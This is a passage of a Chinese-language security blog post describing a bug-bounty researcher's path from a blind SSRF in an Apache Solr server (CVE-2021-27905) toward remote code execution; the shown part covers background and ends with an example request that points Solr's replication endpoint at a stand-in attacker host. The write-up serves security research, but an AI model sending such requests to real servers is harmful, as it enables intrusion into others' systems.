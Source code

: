 #  Solr服务器上的“花式”远程代码执行（RCE）   
adbc  山石网科安全技术研究院   2025-03-30 09:00  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_gif/NGIAw2Z6vnLzibrp7C4HmazCNIQXMJIRxvbibNMMmxDGrTN0Z9ibYzXnSNKobTzADCPgdo1b7ukKNARFEicHqQiajWw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8Jb8ZACqDjPdMzgicp2SzdZ19mFnVcBO53s1uA2cSfarQkwibVUeCeH9w/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
**从盲SSRF到RCE：如何在Solr服务器上实现数据篡改和代码执行！**  
  
****  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/NGIAw2Z6vnLKuKAwMiaYedpTAYugKibaTBsHzf5pDuztECgfIgOfpG5DRF31jzhosMEj23dlx186q0zgLaIZj9lA/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
在网络安全的世界里，漏洞的发现和利用往往充满了曲折和惊喜。今天，我们要分享的是一次极具挑战性的漏洞挖掘经历——如何在一个看似普通的Solr服务器上，通过一系列复杂的操作，最终实现远程代码执行（RCE）。  
这个漏洞不仅考验了技术能力，更考验了耐心和创造力。虽然最终的结果有些不尽如人意，但这段经历绝对值得分享。让我们跟随笔者一起走进这个充满“花式操作”的漏洞故事！  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**一、前期工作**  
  
  
去年，笔者在同一私有项目的不同Solr服务器上发现了三个漏洞，其中部分漏洞已在本博客的  
另一篇文章  
中描述。笔者强烈建议阅读该文，因为它介绍了本文将要讨论的一些Solr核心概念。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2oxsUrnvfM8SHbZWDedicabCdN5RAY9kejRPn7foaCvdyyaTYzKgAJlBdA/640?wx_fmt=png&from=appmsg "")  
  
  
在此期间，笔者还在其中一个仅存储欧洲区所有商店前端数据（产品名称、价格、链接等）的Solr服务器中发现了一个已知的盲SSRF漏洞  
（CVE-2021-27905）  
。该服务器允许自由查询且不包含任何敏感信息。由于这并非高危漏洞，笔者没有将它上报，而是计划将其作为未来复杂利用链的潜在组件。但最终搁置了这个想法，转向了其他无关项目。  
  
  
数月后（撰写本文的两周前），笔者决定花更多时间在漏洞赏金项目上。首先复查了过往漏洞报告笔记，旨在通过回顾旧案进入状态，为不停地进行渗透测试做好心理准备，而根据经验，心理调节始终是我从事漏洞赏金工作中最具挑战性的环节。  
  
  
带着更积极的心态，笔者回忆起曾在这个已斩获两个高危和一个严重漏洞的项目中留有盲SSRF时，立即决定重新审视。这次笔者将采取更深入的研究方法，全面探究Solr机制。快速验证该盲SSRF仍可利用后，正式开启工作。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**二、认识盲SSRF**  
  
  
首要目标是透彻理解这个最初仅通过常规Solr漏洞扫描发现的盲SSRF。该漏洞位于核心的复制端点"/solr//replication"。Solr中的核心（core）即服务器中的独立数据集，本例中每个语言区域对应一个核心（如"de"代表德语）。触发漏洞的URL示例如下：  
  
```
https://target.com/solr/de/replication?command=fetchindex&leaderUrl=https://attacker.com
```  
  